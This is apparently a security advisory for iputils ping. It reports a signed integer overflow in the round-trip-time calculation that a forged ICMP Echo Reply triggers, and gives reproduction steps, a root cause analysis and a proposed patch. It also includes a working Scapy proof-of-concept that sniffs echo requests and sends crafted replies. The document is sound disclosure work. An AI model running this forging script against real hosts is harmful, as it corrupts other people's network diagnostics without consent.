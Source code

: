 
# ping\_rtt overflow

## Summary

A crafted ICMP Echo Reply can trigger a signed 64-bit integer overflow in iputils `ping` RTT calculation. By forging the timestamp field in the ICMP payload to be sufficiently large, the multiplication of seconds by 1,000,000 exceeds the signed `long` range, causing undefined behavior. Under AddressSanitizer (ASan), this is detected as a runtime error. In non ASan builds it wraps silently and clamps to zero, resulting in repeated zero-RTT readings and incorrect statistics.

## Affected Versions

* iputils `ping` from the current `master` branch: [https://github.com/iputils/iputils/tree/master](https://github.com/iputils/iputils/tree/master)
* Ubuntu package version: `iputils-ping 3:20240117-1build1`

## Environment

* Distribution: Ubuntu 24.04.1 LTS (Noble Numbat)
* Kernel: 5.15.167.4-microsoft-standard-WSL2
* Architecture: x86\_64

## Steps to Reproduce

1. **Export ASan/UBSan build flags**

   ```sh
   export CFLAGS="-std=c99 -O1 -g -fsanitize=address,undefined -fno-omit-frame-pointer"
   export CXXFLAGS="$CFLAGS"
   export LDFLAGS="-fsanitize=address,undefined -fno-omit-frame-pointer"
   ```

2. **Clone and build iputils with sanitizers**

   ```sh
   git clone https://github.com/iputils/iputils.git
   cd iputils
   mkdir builddir-asan && cd builddir-asan
   meson .. -Db_sanitize=address,undefined
   ninja
   ```
3. In one terminal, start the PoC listener script (`poc.py`):

   ```sh
   sudo ./poc.py
   ```
4. In another terminal, run ping:

   ```sh
   sudo ./ping/ping -R -s 64 127.0.0.1
   ```
5. Observe signed-integer-overflow errors from ASan:

   ```
   ../ping_common.c:757: runtime error: signed integer overflow
   ```

https://github.com/user-attachments/assets/52ebf6e9-daf7-43ae-a1c9-03d3bf7bce7b

## Root Cause Analysis

In `ping_common.c`, the code does:

```c
/* normalize recv_time - send_time */
tvsub(&tv, &tmp_tv);
/* compute microseconds */
triptime = tv.tv_sec * 1000000 + tv.tv_usec;
```

Because `tv->tv_sec` is a signed 64-bit `long` and attacker controls it via the ICMP payload, multiplying by 1,000,000 can exceed `LONG_MAX`, causing signed overflow (CWE-190). The code does not check for overflow before or after the multiplication.

## Proposed Fix

Modify the RTT computation to use a 128-bit intermediate and clamp:


```diff
--- a/ping_common.c
+++ b/ping_common.c
@@ -754,7 +754,15 @@ gather_statistics(struct ping_rts *rts, uint8_t *icmph, int icmplen,
        tvsub(tv, &tmp_tv);
-       triptime = tv->tv_sec * 1000000 + tv->tv_usec;
+       {
+           __int128 delta = (__int128)tv->tv_sec * 1000000 + tv->tv_usec;
+           if (delta < 0) {
+               triptime = 0;
+           } else if (delta > LLONG_MAX) {
+               triptime = (long)LLONG_MAX;
+           } else {
+               triptime = (long)delta;
+           }
+       }
```

## PoC Script (`poc.py`)

```python
#!/usr/bin/env python3
from scapy.all import IP, ICMP, Raw, send, sniff, bind_layers
import time, struct, sys, os

LISTEN_INTERFACE = "lo"
TARGET_IP = "127.0.0.1"
FUTURE_OFFSET_SEC = 1.0

bind_layers(ICMP, Raw)

def process_packet(pkt):
    if not (pkt.haslayer(IP) and pkt.haslayer(ICMP)):
        return
    ip = pkt[IP]
    ic = pkt[ICMP]
    if ic.type != 8:
        return

    fut = time.time() + FUTURE_OFFSET_SEC
    sec = int(fut)
    usec = int((fut - sec) * 1_000_000)

    data = struct.pack('=ll', sec, usec)
    data += b'Z'*8   # padding to force full timeval read and overflow

    reply = (
        IP(src=ip.dst, dst=ip.src) /
        ICMP(type=0, code=0, id=ic.id, seq=ic.seq) /
        Raw(load=data)
    )

    print(f"sending id={ic.id} seq={ic.seq} sec={sec} usec={usec} len={len(data)}")
    send(reply, iface=LISTEN_INTERFACE, verbose=False)


def main():
    if os.geteuid() != 0:
        sys.exit("need root")
    filt = f"icmp and icmp[icmptype] = icmp-echo and host {TARGET_IP}"
    print(f"listening on {LISTEN_INTERFACE} for {TARGET_IP}")
    sniff(iface=LISTEN_INTERFACE, filter=filt, prn=process_packet, store=0)

if __name__=='__main__':
    main()
```

----
```
Signed-off-by: Mohamed Maatallah <hotelsmaatallahrecemail@gmail.com>
```
